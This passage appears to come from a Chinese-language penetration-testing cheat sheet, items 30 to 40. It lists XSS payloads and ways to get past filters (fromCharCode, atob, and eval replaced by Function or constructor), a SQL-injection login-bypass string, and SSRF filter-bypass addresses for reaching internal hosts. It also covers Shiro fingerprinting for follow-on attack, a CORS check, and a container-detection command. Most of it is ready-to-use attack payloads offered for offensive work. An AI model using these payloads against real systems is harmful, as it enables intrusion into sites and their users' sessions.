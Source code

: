 30、CentOS 7系统利用suid提权获取Root Shell

```
https://www.freebuf.com/articles/system/244627.html
```

31、xss中<a>标签利用的payload：

```
<a href=javascript:alert(1)>xx</a>
```

32、XSS过滤了单引号，等号可以：

```
①、使用：String.fromCharCode(97,108,101,114,116,40,49,41);
为alert(1)，该方法输出的结果为字符串，可以使用eval()进行执行，即弹框操作
eval(String.fromCharCode(97,108,101,114,116,40,49,41));
②、atob函数：
eval(atob`YWxlcnQoMSk=`) 为 eval(atob`alert(1)`) 其中`为反引号
```

33、XSS过滤了单引号，等号以及圆括号，eval：

```
①、过滤了eval函数可以用其他函数去绕过，如：Function，constructor
Function`a${atob`YWxlcnQoMSk=`}```
``.constructor.constructor`a${atob`YWxlcnQoMSk=`}```
```

34、可使用下面命令查看是否处在docker虚拟机中

```
cat /proc/1/cgroup
```

35、万能密码试试`'=0#`

36、CORS漏洞验证，可以使用curl来验证：

```
curl https://www.xxxx.com -H "Origin: https://test.com" -I
检查返回包的 Access-Control-Allow-Origin 字段是否为https://test.com
```

37、在盲测目标系统是否为Shiro时，可以在Cookie中手动构造`rememebrMe=xxx`，如果返回包中Set-Cookie中存在`rememberMe=deleteMe`，则证明该系统使用了Shiro，因此可以进一步攻击。
38、使用正则获取网站中所包含的其他URL：

```
cat file | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*

curl http://host.xx/file.js | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*
```

39、常见的一些远程命令执行（RCE）参数，详情，请看dicts目录下的RCE-extentions.txt文件。

40、绕过SSRF防护的几个小方法：

```
A、绕过SSRF限制通过CIDR，如：
http://127.127.127.127
http://127.0.0.0

B、不完整的地址，如：
http://127.1
http://0

C、将地址结合在通过特殊字符结合在一起，如：
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib : 3.3.3.3

D、绕过解析器，如：
http://127.1.1.1:80\@127.2.2.2:80/
```